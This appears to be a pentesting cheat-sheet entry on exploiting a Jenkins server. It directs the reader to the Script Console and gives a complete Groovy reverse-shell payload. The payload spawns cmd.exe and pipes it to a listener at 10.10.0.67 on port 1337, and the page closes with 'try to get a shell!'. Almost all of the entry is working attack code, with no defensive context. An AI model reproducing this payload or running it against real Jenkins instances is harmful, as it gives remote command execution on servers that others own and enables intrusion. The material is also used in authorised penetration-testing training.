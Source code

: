 # Jenkins

### Exploiting Jenkins Server

Navigate to `Manage Jenkins>>Script Console` and edit this code for a reverse connection:

```text
String host="10.10.0.67";
int port=1337;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new 
Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), 
si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();
while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());
while(pe.available()>0)so.write(pe.read());
while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try 
{p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

Click run and try to get a shell!

